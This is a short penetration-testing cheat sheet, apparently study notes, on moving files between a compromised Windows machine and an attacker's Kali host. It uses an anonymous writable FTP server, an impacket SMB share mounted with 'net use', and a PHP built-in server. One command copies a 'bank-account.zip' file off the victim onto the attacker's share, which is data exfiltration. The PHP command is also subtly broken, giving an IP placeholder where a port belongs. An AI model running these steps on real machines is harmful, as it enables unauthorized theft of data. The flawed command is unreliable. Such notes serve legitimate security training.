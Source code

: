 ## FTP Server
Host ftp server on your kali machine: `python3 -m pyftpdlib -p 21 --write`

Now using ftp on the compromised windows machine connect to your ftp server using anonymous access: `ftp <IP>`

Remember to use `binary` mode when transferring files.

## SMB Server
`impacket-smbserver tadi .`

- use `-smb2support` if machine is running smb version 2

on the windows machine run `net use \\<KALI IP>\tadi`

you can copy from windows machine using: `copy C:\bank-account.zip Z:\bank-account.zip` or cd into `Z:\` then `copy C:<PATH> .`

`Z:\` would be the name of the share that you opened

## PHP Server
If php is installed on the windows client, host a server and connect to it from your kali machine

`php -S 0.0.0.0:<IP>`